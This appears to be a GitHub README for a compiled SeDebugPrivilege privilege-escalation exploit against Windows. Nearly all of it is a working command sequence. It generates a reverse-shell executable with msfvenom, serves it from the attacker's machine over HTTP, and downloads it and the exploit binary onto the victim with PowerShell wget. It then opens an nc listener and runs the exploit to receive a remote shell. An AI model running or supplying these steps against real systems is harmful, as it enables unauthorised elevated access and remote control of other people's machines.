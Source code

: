 # SeDebugPrivilege
SeDebugPrivilege compiled exploit

This exploit is when you do not have a GUI on the machine, only CLI. A shell.exe file must be uploaded into the C:\Temp directory
```
mkdir C:\Temp #on windows
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP ADDRESS> LPORT=<LISTENING PORT> -f exe > shell.exe #on kali
python3 -m http.server 80 #on kali
wget http://<IP ADDRESS>/shell.exe -o C:\Temp\shell.exe #powershell
wget http://<IP ADDRESS>/SeDebugPrivilegePoC.exe -o C:\Temp\SeDebugPrivilegePoC.exe #powershell
nc -lvnp <LISTENING PORT> #kali
./SeDebugPrivilegePoC.exe
```
You should recieve a callback from the Windows machine

